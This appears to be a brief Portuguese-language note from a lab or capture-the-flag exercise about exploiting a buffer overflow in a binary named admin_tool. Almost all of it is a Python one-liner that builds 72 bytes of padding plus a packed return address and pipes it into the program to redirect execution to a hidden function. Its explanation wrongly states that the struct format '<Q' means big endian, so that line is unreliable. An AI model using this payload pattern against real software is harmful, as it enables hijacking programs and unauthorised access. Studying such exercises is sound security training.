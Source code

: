 ## Utilizando o python para explorar o buffer overflow

python3 -c "import struct; addr = struct.pack('<Q', ENDERECO_FUNCAO_NOTAS_PARA_DEV); offset = b'A' * 72; payload = offset + addr; print(payload.decode('latin-1'))" | ./admin_tool


o parâmetro '<Q' define que é um endereço big endian e que vai ser passado um valor numérico para empacotar